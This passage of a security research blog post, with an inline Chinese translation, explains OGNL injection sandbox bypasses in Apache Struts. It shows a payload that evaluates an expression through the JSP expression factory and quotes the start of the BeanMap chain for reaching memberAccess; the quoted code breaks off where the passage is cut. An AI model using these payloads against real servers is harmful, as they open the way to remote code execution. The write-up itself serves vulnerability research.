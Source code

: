 ```shell
(#attr['com.opensymphony.xwork2.ActionContext.actionInvocation'].invoke())+

(#ctx=#request['com.opensymphony.xwork2.dispatcher.PageContext'])+

(#jsp=#application['org.apache.jasper.runtime.JspApplicationContextImpl'])+

(#elctx=#jsp.createELContext(#ctx))+

(#jsp.getExpressionFactory().createValueExpression(#elctx, '7*7', @java.lang.Class@class).getValue(#elctx))
```

The avid readers may be wondering why Struts stores the `PageContext` in the request. Well, turns out, it does not, but we can access it through chained contexts.  
热心的读者可能想知道为什么 Struts 在请求中存储 `PageContext` 。事实证明，它并不存在，但我们可以通过链接上下文访问它。

When accessing `#attr` (`AttributeMap`), [we can indirectly look into multiple scopes](https://struts.apache.org/maven/struts2-core/apidocs/org/apache/struts2/util/AttributeMap.html) such as the Page, Request, Session and Application (Servlet). But there is more, `org.apache.struts2.dispatcher.StrutsRequestWrapper.getAttribute()` will look for the attribute in the `ServletRequest`, if it can’t find it there, [it will search the value stack](https://github.com/apache/struts/blob/master/core/src/main/java/org/apache/struts2/dispatcher/StrutsRequestWrapper.java#L94)! So, we can effectively access the value stack through the `#request` or `#attr` variables.  
当访问 `#attr` （ `AttributeMap` ）时，我们可以间接地查看多个范围，例如 Page，Request，Session 和 Application（Servlet）。但是还有更多， `org.apache.struts2.dispatcher.StrutsRequestWrapper.getAttribute()` 会在 `ServletRequest` 中查找属性，如果在那里找不到，它会搜索值堆栈！因此，我们可以通过 `#request` 或 `#attr` 变量有效地访问值堆栈。

In this case, the `PageContext` was not stored in the request scope, but in the Value stack, and we are able to access it through chained context searches.  
在本例中， `PageContext` 没有存储在请求作用域中，而是存储在 Value 堆栈中，我们可以通过链式上下文搜索访问它。

We can even run arbitrary OGNL expressions as long as they don’t contain any hashes (`#`), for example, `#request["@java.util.HashMap@class"]` will return the `HashMap` class.  
我们甚至可以运行任意的 OGNL 表达式，只要它们不包含任何哈希值（ `#` ），例如， `#request["@java.util.HashMap@class"]` 将返回 `HashMap` 类。

### Leveling up the BeanMap payload  
升级 BeanMap 有效负载[](#leveling-up-the-beanmap-payload)

You may already be familiar with McOwn’s [technique](https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html). He realized that it was possible to use [OGNL Map notation](https://commons.apache.org/proper/commons-ognl/language-guide.html) to instantiate an `org.apache.commons.collections.BeanMap` by using the `#@org.apache.commons.collections.BeanMap@{ }` syntax, and then it was possible to wrap any Java object on this map and access any getters and setters as map properties. His payload was based on the `org.apache.tomcat.InstanceManager` payload we introduced at [Black Hat 2020](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf) and looked like:  
您可能已经熟悉 McOwn 的技术。他意识到可以使用 OGNL Map 表示法通过使用 `#@org.apache.commons.collections.BeanMap@{ }` 语法来实例化 `org.apache.commons.collections.BeanMap` ，然后可以在此 map 上包装任何 Java 对象并访问任何 getter 和 setter 作为 map 属性。他的有效载荷基于我们在 Black Hat 2020 上介绍的 `org.apache.tomcat.InstanceManager` 有效载荷，看起来像：

```kotlin
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +

(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +

(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +

(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +

(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +

(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +

```